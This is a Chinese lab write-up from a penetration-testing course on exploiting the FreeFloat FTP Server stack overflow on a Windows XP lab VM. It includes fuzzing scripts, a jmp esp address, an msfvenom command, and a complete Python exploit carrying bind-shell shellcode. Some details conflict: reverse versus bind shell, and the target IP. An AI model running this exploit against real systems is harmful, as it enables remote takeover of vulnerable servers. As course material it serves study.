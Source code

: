 ```yaml
---
title: 实验八--栈溢出漏洞利用
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 栈溢出
published: 2023-12-08
permalink: /archives/pxbe1psj/
---
```

## 实验目的

1、掌握软件栈溢出漏洞的原理和如何利用漏洞

## 实验任务

1、对winxp靶机中的FreeFloat FTP Sever进行溢出漏洞测试

2、编写漏洞渗透程序

3、使用Metasploit来生成Shellcode

## 实验步骤

## 分析漏洞

在xp靶机上开启FTPServer

![实验八_image_1](./images/202312071129688.png)

在kali上连接ftp，直接输入aaa/aaa即可进行登录，可以登陆成功，即该服务器并没有对用户进行限制

![实验八_image_2](./images/202312071129132.png)

利用python生成一百个'a'登录，报错了

![实验八_image_3](./images/202312071129977.png)wireshark抓包得知，只发送出去了78个a

![实验八_image_4](./images/202312071130651.png)同时发送了100个a也没令软件崩溃，所以改用其他方法

### 使用脚本测试

python发包测试

```python
from pwn import *
p = remote("192.168.100.143", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

![实验八_image_5](./images/202312071130617.png)
程序崩溃了
![实验八_image_6](./images/202312071130998.png)
此时eip指向了0x41414141，从发送的数据'A'的ascii码是0x41得知，USER输入点存在栈溢出漏洞
![实验八_image_7](./images/202312071130938.png)
进一步的验证分析就不进行了，网上有更详细的分析过程

## 漏洞利用

### 寻找jmp esp地址

![实验八_image_8](./images/202312071130653.png)

![实验八_image_9](./images/202312071130894.png)

![实验八_image_10](./images/202312071130878.png)

![实验八_image_11](./images/202312071130671.png)

![实验八_image_12](./images/202312071130922.png)

只有一个地址，那就用：77D4754A这个地址

### 生成shellcode

利用metasploit生成windows反弹shell的shellcode，排除坏数据’\x00\x0a\x0d’，以c语言格式输出，靶机IP：192.168.100.142

```bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.100.143 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

![实验八_image_13](./images/202312071130078.png)
编写exp，这里使用的是python3的语法，在运行脚本前还需要安装pwntools
\x90为nop指令，起着类似滑板的作用

```python
from pwn import *
p = remote("192.168.100.143",21)
payload = b'A'*251
payload += p32(0x77D4754A)
payload += b'C'*8
payload += b'\x90'*20

shellcode = (
b"\xda\xcb\xd9\x74\x24\xf4\xb8\xcd\x8a\xb1\xec\x5a\x31\xc9"
b"\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\x8f\x99\x53\x19\xf3"
b"\x76\x11\xe2\x0b\x87\x76\x6a\xee\xb6\xb6\x08\x7b\xe8\x06"
b"\x5a\x29\x05\xec\x0e\xd9\x9e\x80\x86\xee\x17\x2e\xf1\xc1"
b"\xa8\x03\xc1\x40\x2b\x5e\x16\xa2\x12\x91\x6b\xa3\x53\xcc"
b"\x86\xf1\x0c\x9a\x35\xe5\x39\xd6\x85\x8e\x72\xf6\x8d\x73"
b"\xc2\xf9\xbc\x22\x58\xa0\x1e\xc5\x8d\xd8\x16\xdd\xd2\xe5"
b"\xe1\x56\x20\x91\xf3\xbe\x78\x5a\x5f\xff\xb4\xa9\xa1\x38"
b"\x72\x52\xd4\x30\x80\xef\xef\x87\xfa\x2b\x65\x13\x5c\xbf"
b"\xdd\xff\x5c\x6c\xbb\x74\x52\xd9\xcf\xd2\x77\xdc\x1c\x69"
b"\x83\x55\xa3\xbd\x05\x2d\x80\x19\x4d\xf5\xa9\x38\x2b\x58"
b"\xd5\x5a\x94\x05\x73\x11\x39\x51\x0e\x78\x56\x96\x23\x82"
b"\xa6\xb0\x34\xf1\x94\x1f\xef\x9d\x94\xe8\x29\x5a\xda\xc2"
b"\x8e\xf4\x25\xed\xee\xdd\xe1\xb9\xbe\x75\xc3\xc1\x54\x85"
b"\xec\x17\xc0\x8d\x4b\xc8\xf7\x70\x2b\xb8\xb7\xda\xc4\xd2"
b"\x37\x05\xf4\xdc\x9d\x2e\x9d\x20\x1e\x41\x02\xac\xf8\x0b"
b"\xaa\xf8\x53\xa3\x08\xdf\x6b\x54\x72\x35\xc4\xf2\x3b\x5f"
b"\xd3\xfd\xbb\x75\x73\x69\x30\x9a\x47\x88\x47\xb7\xef\xdd"
b"\xd0\x4d\x7e\xac\x41\x51\xab\x46\xe1\xc0\x30\x96\x6c\xf9"
b"\xee\xc1\x39\xcf\xe6\x87\xd7\x76\x51\xb5\x25\xee\x9a\x7d"
b"\xf2\xd3\x25\x7c\x77\x6f\x02\x6e\x41\x70\x0e\xda\x1d\x27"
b"\xd8\xb4\xdb\x91\xaa\x6e\xb2\x4e\x65\xe6\x43\xbd\xb6\x70"
b"\x4c\xe8\x40\x9c\xfd\x45\x15\xa3\x32\x02\x91\xdc\x2e\xb2"
b"\x5e\x37\xeb\xc2\x14\x15\x5a\x4b\xf1\xcc\xde\x16\x02\x3b"
b"\x1c\x2f\x81\xc9\xdd\xd4\x99\xb8\xd8\x91\x1d\x51\x91\x8a"
b"\xcb\x55\x06\xaa\xd9")

payload += shellcode
p.sendline(payload)
p.close()
```

运行脚本，并使用nc进行连接即可成功获得shell
![实验八_image_14](./images/202312071130455.png)

## 参考

- https://rj45mp.github.io/Freefloat-FTP-Server1-0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://bbs.kanxue.com/thread-266641.htm
